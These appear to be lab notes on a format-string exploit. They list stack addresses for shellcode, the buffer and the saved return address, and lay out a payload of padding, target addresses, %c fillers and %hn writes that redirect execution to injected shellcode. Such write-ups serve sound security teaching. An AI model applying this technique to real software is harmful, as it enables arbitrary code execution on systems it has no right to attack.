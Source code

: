 ![](../../../../../Assets/Pics/Screenshot%202024-09-20%20at%2022.52.51.png)


### Magic Numbers
- The address of our SHELLCODE (`0xffffd858`)
- The address of `arg[0]` of `printf` function. (`0xffffd608`)
- The address of `buf`. (`0xffffd630`)
- The address of `rip` to caliberate. (`0xffffd618`) We are supposed to overwrite this address to the address of our SHELLCODE.


### Exploit Structure
From bottum up: `A*4 + \x1c\xd6\xff\xff + A*4 + \x1e\xd6\xff\xff + %c*15 + %SECOND_HALFu + %hn + %FIRST_HALFu + %hn`
- `A` is garbage byte to hold places
- `\x1c\xd6\xff\xff` is the address of `rip`'s first byte (least significant byte)
- `\x1e\xd6\xff\xff` is the address of `rip`'s third byte
- `%c` is to move arguments of `printf` up
- `SECOND_HALF` is the value of two least significant bytes of `rip` minus the number of characters already printed out up util it was accessed
- `FIRST_HALF` is the value of two most significant bytes of `rip` minus the value of two least significant bytes of `rip`.
